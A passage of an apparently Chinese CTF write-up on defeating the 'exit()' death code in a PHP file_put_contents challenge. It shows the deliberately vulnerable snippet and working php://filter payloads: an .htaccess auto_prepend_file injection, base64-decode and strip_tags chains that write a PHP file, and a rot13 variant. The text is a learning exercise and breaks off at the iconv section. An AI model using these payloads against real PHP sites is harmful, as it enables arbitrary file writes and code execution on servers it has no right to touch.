 ### 第二种情况

```php
<?php
if(isset($_GET['content'])){
    $content = $_GET['content'];
    file_put_contents($content,"<?php exit();".$content);
}else{
    highlight_file(__FILE__);
}
```

这种情况和上面第一种便有点不同了，因为是一个变量，但还是可以利用php伪协议进行嵌套过滤器来消除死亡代码的，可以利用.htaccess进行预包含，然后读取flag

**.htaccess预包含绕过：**
可以直接自定义预包含文件，这里直接包含了.htaccess导致了所有文件都包含flag.php文件
这里我本机测试时无法执行.htaccess，借用了一下别人的图 (还是太菜了~~)


```php
payload：

?content=php://filter/string.strip_tags/?>php_value auto_prepend_file D:\flag.php%0a%23/resource=.htaccess
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528013232306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**base64编码绕过：**
 - 既然变成了一个变量，那么首先想到的payload便是：`php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php`但是有一个问题，可以创建文件，但是无法写入内容，原因出在=号上，因为默认情况下base64编码是以=作为结尾的，在正常解码的时候到了=就解码结束了，在最后获取文件名的时候因为resource=中含有等号，所以以为解码是结束了，导致过滤器解码失败，从而报错，内容由于解码过程出错了，所以就都丢弃了
 - 所以现在问题就转变为了只要能去掉这个等号，就可以将内容写进去，可以看下这种方法：`php://filter/<?|string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B.php`如果按照之前的思路是先闭合死亡代码，然后再使用过滤器去除html标签，最后再进行解码，但仔细观察这个payload并非是那种解法，而是直接在内容时，就将我们base64遇到的等号这个问题直接写在<? ?>中进行过滤掉，然后base64-decode再对原本内容的<?php exit();进行转码，从而达到分解死亡代码的目的
 - 除此之外还可以使用之前的思路来做，既然base64编码写在里面不行，那么就直接放在外面，然后搭配一下过滤器`php://filter/string.strip.tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B.php`先闭合死亡代码，然后进行解码，这样便可以写入到文件中去，但访问的话会出现问题，查看s1mple师傅的方法，发现可以通过使用伪目录的方法，从而绕过去`php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../H3rmesk1t.php`将前面的一串base64字符和闭合的符号整体看作一个目录，虽然没有，但是后面重新撤回了原目录，生成H3rmesk1t.php文件；从而就可以生成正常的文件名，上面的那种方法也可以使用这种伪目录的方法解决访问问题

**rot13编码绕过：**
rot13则无需考虑=号问题

```php
Payload：

?content=php://filter/string.rot13/<?cuc cucvasb();?>/resource=1.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528003428286.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**iconv字符编码绕过：**
在php中iconv函数库能够完成各种字符集间的转换
在该函数库下有一个`convert.iconv.`这样的过滤器，这个过滤器需要php支持iconv，而iconv是默认编译的，使用`convert.iconv.*`过滤器等同于用iconv()函数处理所有的流数据
